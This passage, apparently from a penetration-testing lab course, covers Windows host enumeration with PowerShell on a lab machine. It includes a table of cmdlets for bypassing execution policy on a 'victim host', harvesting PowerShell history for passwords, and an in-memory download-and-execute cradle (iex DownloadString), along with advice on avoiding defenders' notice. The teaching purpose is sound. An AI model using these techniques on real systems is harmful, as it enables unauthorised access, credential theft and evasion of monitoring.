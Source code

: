 The `systeminfo` command, as seen above, will print a summary of the host's information for us in one tidy output. Running one command will generate fewer logs, meaning less of a chance we are noticed on the host by a defender.

***

## Harnessing PowerShell

PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.

<table data-header-hidden><thead><tr><th width="254"></th><th></th></tr></thead><tbody><tr><td><strong>Cmd-Let</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Get-Module</code></td><td>Lists available modules loaded for use.</td></tr><tr><td><code>Get-ExecutionPolicy -List</code></td><td>Will print the <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2">execution policy</a> settings for each scope on a host.</td></tr><tr><td><code>Set-ExecutionPolicy Bypass -Scope Process</code></td><td>This will change the policy for our current process using the <code>-Scope</code> parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.</td></tr><tr><td><code>Get-ChildItem Env: | ft Key,Value</code></td><td>Return environment values such as key paths, users, computer information, etc.</td></tr><tr><td><code>Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt</code></td><td>With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.</td></tr><tr><td><code>powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); &#x3C;follow-on commands>"</code></td><td>This is a quick and easy way to download a file from the web using PowerShell and call it from memory.</td></tr></tbody></table>

Let's see them in action now on the `MS01` host.

### **Quick Checks Using PowerShell**

```powershell
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


PS C:\htb> whoami
nt authority\system

PS C:\htb> Get-ChildItem Env: | ft key,value
```
